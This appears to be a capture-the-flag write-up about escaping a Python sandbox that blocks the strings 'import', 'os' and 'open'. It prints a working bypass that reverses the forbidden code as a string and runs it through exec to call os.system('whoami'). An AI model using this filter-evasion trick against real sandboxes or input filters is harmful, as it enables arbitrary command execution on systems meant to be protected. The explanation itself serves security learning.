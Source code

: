 we are not allowed to use `import` , `os` and `open` in our code

## Bypass Python sandbox

After a google Searching if found this nice article : [python-sandbox-escape](https://programmer.help/blogs/python-sandbox-escape.html)
I use the below code :

```python
exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
```

#### Reverse order | Explanation of the exploit

The `noimportos_sandbox.py` checks the input string if contains these 3 strings : `import` , `os` and `open`

We can simple execute these disallowed values using the reverse order,
For example the

```python
tropmi[::-1] == import
```

Our stealth code is :

```python
exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
```

equals to :

```python
exec('import os; os.system("whoami")')
```

![image]( /assets/img/pylington/6.PNG)

